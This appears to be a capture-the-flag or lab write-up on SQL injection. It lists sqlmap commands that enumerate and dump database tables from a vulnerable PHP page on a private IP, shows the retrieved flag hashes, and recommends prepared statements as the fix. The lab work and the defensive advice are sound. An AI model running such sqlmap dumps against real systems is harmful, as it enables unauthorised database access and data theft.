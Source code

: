 # SQL_Injection
Ahhhh the notorious SQL Injection again. blah blah blah we know the drill. However this time we will make use of a web scanning programme, that will not only find the web application's vulnerabilities but also also exploit them for us. It is called sqlmap.

## Example
For this part we will be making use of out terminal. We'll use the same url like the one we used in SQL_Injection. By using a series of commands we will not only be able to view the database but also save and make use of it's contents

## Commands
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a>
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dbs
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --tables -D Member_images
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --columns -D Member_images -T list_mages
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dump -D Member_images -T list_mages
> options [Y, Y, D, N]

## Retrieved Data
* flag md5 : 1928e8083cf461a51303633093573c46
* flag sh256: 5d5b09f6dcb2d53a5fffc60c4ac0d55fabdf556069d6631545f42aa6e3500f2e

## Remedy
* Similar to direct SQL_Injection this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input. sqlmap uses similar these vulnerabilities to exploit and so without them it will not work.

# Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc